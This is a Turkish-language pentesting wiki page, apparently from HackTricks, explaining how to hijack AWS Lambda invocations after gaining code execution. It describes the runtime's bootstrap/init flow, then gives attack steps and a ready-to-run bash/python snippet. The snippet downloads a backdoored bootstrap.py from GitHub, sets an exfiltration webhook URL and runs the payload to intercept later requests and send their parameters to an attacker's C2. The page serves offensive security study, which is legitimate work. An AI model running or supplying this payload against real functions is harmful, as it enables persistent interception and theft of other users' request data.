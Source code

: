 # AWS - Lambda İsteklerini Çal

{{#include ../../../../banners/hacktricks-training.md}}

## Lambda Akışı

<figure><img src="../../../../images/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**, **invocation**'ları **init** sürecine **gönderen** konteyner dışındaki bir süreçtir.
2. Init süreci, bazı ilginç uç noktaları açığa çıkaran **9001** portunu dinler:
- **`/2018-06-01/runtime/invocation/next`** – bir sonraki invocation olayını al
- **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – invoke için handler yanıtını döndür
- **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – bir yürütme hatası döndür
3. **bootstrap.py**, init sürecinden invocation'ları alan bir döngüye sahiptir ve bunları işlemek için kullanıcı kodunu çağırır (**`/next`**).
4. Son olarak, **bootstrap.py** init'e **yanıtı** gönderir.

Bootstrap'ın kullanıcı kodunu bir modül olarak yüklediğini unutmayın, bu nedenle kullanıcı kodu tarafından gerçekleştirilen herhangi bir kod yürütmesi aslında bu süreçte gerçekleşmektedir.

## Lambda İsteklerini Çalmak

Bu saldırının amacı, kullanıcı kodunun, savunmasız isteği işleyen **`bootstrap.py`** süreci içinde kötü niyetli bir **`bootstrap.py`** süreci çalıştırmasını sağlamaktır. Bu şekilde, **kötü niyetli bootstrap** süreci, istekleri işlemek için **init süreciyle** **iletişim kurmaya** başlayacakken, **meşru** bootstrap, kötü niyetli olanı çalıştırarak **tuzağa düşürülmüş** olacaktır, böylece init sürecine istek sormayacaktır.

Bu, kullanıcı kodunun meşru **`bootstrap.py`** süreci tarafından yürütüldüğü için basit bir görevdir. Böylece saldırgan:

- **Mevcut invocation'ın sahte bir sonucunu init sürecine gönderebilir**, böylece init, bootstrap sürecinin daha fazla invocation beklediğini düşünebilir.
- **`/${invoke-id}/response`** adresine bir istek gönderilmelidir.
- Invoke-id, meşru **`bootstrap.py`** sürecinin yığınından [**inspect**](https://docs.python.org/3/library/inspect.html) python modülünü kullanarak elde edilebilir (burada [önerildiği gibi](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) veya sadece tekrar **`/2018-06-01/runtime/invocation/next`** adresine istekte bulunarak elde edilebilir (burada [önerildiği gibi](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
- Bir sonraki invocation'ları yönetecek kötü niyetli bir **`boostrap.py`** çalıştırın.
- Gizlilik amacıyla, lambda invocation parametrelerini saldırganın kontrolündeki bir C2'ye göndermek ve ardından istekleri normal şekilde işlemek mümkündür.
- Bu saldırı için, **`bootstrap.py`**'nin orijinal kodunu sistemden veya [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) üzerinden almak, kötü niyetli kodu eklemek ve mevcut lambda invocation'ından çalıştırmak yeterlidir.

### Saldırı Adımları

1. Bir **RCE** açığı bulun.
2. **Kötü niyetli** bir **bootstrap** oluşturun (örneğin, [https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py)).
3. Kötü niyetli bootstrap'ı **çalıştırın**.

Bu eylemleri kolayca gerçekleştirebilirsiniz:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Daha fazla bilgi için kontrol edin [https://github.com/carlospolop/lambda_bootstrap_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## Referanslar

- [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{{#include ../../../../banners/hacktricks-training.md}}
